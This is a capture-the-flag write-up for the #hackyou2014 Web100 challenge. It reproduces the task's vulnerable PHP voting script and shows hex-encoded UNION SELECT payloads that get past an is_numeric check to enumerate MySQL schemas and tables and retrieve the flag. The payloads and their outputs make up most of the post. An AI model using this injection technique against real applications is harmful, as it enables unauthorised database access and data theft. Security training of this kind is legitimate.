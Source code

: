 +++
author = "pwntester"
categories = ["CTF", "PHP", "HackYou2014"]
date = 2014-01-15T23:52:00Z
description = ""
draft = false
slug = "hackyou2014-web100-write-up"
tags = ["CTF", "PHP", "HackYou2014"]
title = "#hackyou2014 Web100 write-up"

+++


In this [level](http://hackyou2014tasks.ctf.su:10080/) we are presented with some logos we can vote.

![](/images/octopress/web100-1.png)

If we look at the source code we can see an interesting comment:

```lang-html line-numbers 
...
<!-- TODO: remove index.phps -->
...
```

We can grab the source code:

```lang-php line-numbers 
 <?php
include 'db.php';
session_start();
if (!isset($_SESSION['login'])) {
    $_SESSION['login'] = 'guest'.mt_rand(1e5, 1e6);
}
$login = $_SESSION['login'];

if (isset($_POST['submit'])) {
    if (!isset($_POST['id'], $_POST['vote']) || !is_numeric($_POST['id']))
        die('Hacking attempt!');
    $id = $_POST['id'];
    $vote = (int)$_POST['vote'];
    if ($vote > 5 || $vote < 1)
        $vote = 1;
    $q = mysql_query("INSERT INTO vote VALUES ({$id}, {$vote}, '{$login}')");
    $q = mysql_query("SELECT id FROM vote WHERE user = '{$login}' GROUP BY id");
    echo '<p><b>Thank you!</b> Results:</p>';
    echo '<table border="1">';
    echo '<tr><th>Logo</th><th>Total votes</th><th>Average</th></tr>';
    while ($r = mysql_fetch_array($q)) {
        $arr = mysql_fetch_array(mysql_query("SELECT title FROM picture WHERE id = ".$r['id']));
        echo '<tr><td>'.$arr[0].'</td>';
        $arr = mysql_fetch_array(mysql_query("SELECT COUNT(value), AVG(value) FROM vote WHERE id = ".$r['id']));
        echo '<td>'.$arr[0].'</td><td>'.round($arr[1],2).'</td></tr>';
    }
    echo '</table>';
    echo '<br><a href="index.php">Back</a><br>';
    exit;
}
<html>
<head>
    <title>Picture Gallery</title>
</head>
<body>
<p>Welcome, <?php echo $login; ?></p>
<p>Help us to choose the best logo!</p>
<form action="index.php" method="POST">
<table border="1" cellspacing="5">
<tr>
$q = mysql_query('SELECT * FROM picture');
while ($r = mysql_fetch_array($q)) {
    echo '<td><img src="./images/'.$r['image'].'"><div align="center">'.$r['title'].'<br><input type="radio" name="id" value="'.$r['id'].'"></div></td>';
}
</tr>
</table>
<p>Your vote:
<select name="vote">
<option value="1">1</option>
<option value="2">2</option>
<option value="3">3</option>
<option value="4">4</option>
<option value="5">5</option>
</select></p>
<input type="submit" name="submit" value="Submit">
</form>
</body>
</html>
<!-- TODO: remove index.phps -->
```

We cannot inject in **vote** because it is casted to an integer and the value is verified but we can inject in **id** if we can bypass the **is_numeric** function. Actually, it was quite easy, we can submit hexadecimal values and benefit from how **mysql** handles [hex literals](http://dev.mysql.com/doc/refman/5.0/en/hexadecimal-literals.html).
We can verify the injection submiting:

```lang-html line-numbers 
0x39393939393939393939393920756e696f6e20616c6c202873656c656374202748656c6c6f21212729
999999999999 union all (select 'Hello!!')
```

The server will return:

![](/images/octopress/web100-2.png)

Ok, now we can try something more interesting:

```lang-html line-numbers 
0x39393939393939393939393920756e696f6e20616c6c202853454c4543542047524f55505f434f4e43415428736368656d615f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e736368656d61746129
999999999999 union all (SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)
```

```lang-html line-numbers 
information_schema,mysql,performance_schema,task,test
```

From "task"

```lang-html line-numbers 
0x39393939393939393939393920756e696f6e20616c6c202853454c4543542047524f55505f434f4e434154287461626c655f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e7461626c6573205748455245207461626c655f736368656d61203d20277461736b2729
999999999999 union all (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'task')
```

```lang-html line-numbers 
Flag,picture,vote
```

Now the columns:

```lang-html line-numbers 
0x39393939393939393939393920756e696f6e20616c6c202853454c4543542047524f55505f434f4e43415428636f6c756d6e5f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f736368656d61203d20277461736b2720616e64207461626c655f6e616d653d27466c61672729
999999999999 union all (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'task' and table_name='Flag')
```

```lang-html line-numbers 
flag
```

And finally:

```lang-html line-numbers 
0x39393939393939393939393920756e696f6e20616c6c202853454c4543542047524f55505f434f4e43415428666c6167292066726f6d20466c616729
999999999999 union all (SELECT GROUP_CONCAT(flag) from Flag)
```

```lang-html line-numbers 
CTF{820178c33c03aaa7cfe644c691679cf8}
```




